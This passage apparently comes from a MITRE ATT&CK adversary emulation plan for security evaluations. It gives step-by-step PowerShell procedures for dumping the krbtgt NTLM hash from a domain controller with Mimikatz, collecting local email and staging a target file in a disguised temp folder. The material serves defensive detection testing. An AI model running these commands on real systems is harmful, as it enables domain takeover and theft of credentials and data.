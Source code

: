 **Note:** If you get an error here, reboot domain controller, then re-run the 2 winrm setup commands before re-executing 16.C

#### 16.D - OS Credential Dumping ([T1003](https://attack.mitre.org/versions/v6/techniques/T1003/) / [T1003.001](https://attack.mitre.org/techniques/T1003/001))

1. Execute `Copy-Item m.exe -Destination "C:\Windows\System32\" -ToSession $[session_id]`
    *  `m.exe` is a copy of the Mimikatz executable (available at https://github.com/gentilkiwi/mimikatz)
2. Execute `Invoke-Command -Session $[session_id] -scriptblock {C:\Windows\System32\m.exe privilege::debug "lsadump::lsa /inject /name:krbtgt" exit} | out-string`
3. Take note of value for the NTLM hash (ex: `NTLM : f4a688010d80770a55a22893dc6ac510`) near the top (Under RID and User after `* Primary`)
4. Execute `Get-PSSession | Remove-PSSession`

### Cited Intelligence

* Open Invitation Contributors: Microsoft, SentinelOne

* PowerDuke can get the current user’s SID via select Windows API calls.<sup> [11](https://www.volexity.com/blog/2016/11/09/powerduke-post-election-spear-phishing-campaigns-targeting-think-tanks-and-ngos/) </sup>

---

## Step 17 - Collection

The attacker harvests emails stored in the local email client ([T1114](https://attack.mitre.org/versions/v6/techniques/T1114/) / [T1114.001](https://attack.mitre.org/techniques/T1114/001/)) before collecting ([T1005](https://attack.mitre.org/techniques/T1005/)) and staging ([T1074](https://attack.mitre.org/versions/v6/techniques/T1074/) / [T1074.001](https://attack.mitre.org/techniques/T1074/001/)) a file of interest. The staged file is compressed ([T1002](https://attack.mitre.org/versions/v6/techniques/T1002/) / [T1560.001](https://attack.mitre.org/techniques/T1560/001)) as well as prepended with the magic bytes of the GIF file type ([T1027](https://attack.mitre.org/techniques/T1027/)).

### Procedures

#### 17.A - Email Collection: Local Email Collection ([T1114](https://attack.mitre.org/versions/v6/techniques/T1114/) / [T1114.001](https://attack.mitre.org/techniques/T1114/001/))

1. Interact with low integrity callback
2. Load `stepSeventeen_email.ps1`
3. Execute `psemail`

#### 17.B - Data from Local System ([T1005](https://attack.mitre.org/techniques/T1005/))

1.  Interact with high integrity callback
2.  Execute `New-Item -Path "C:\Windows\Temp\" -Name "WindowsParentalControlMigration" -ItemType "directory"`
3.  Execute `Copy-Item "C:\Users\oscar\Documents\MITRE-ATTACK-EVALS.HTML" -Destination "C:\Windows\Temp\WindowsParentalControlMigration"`
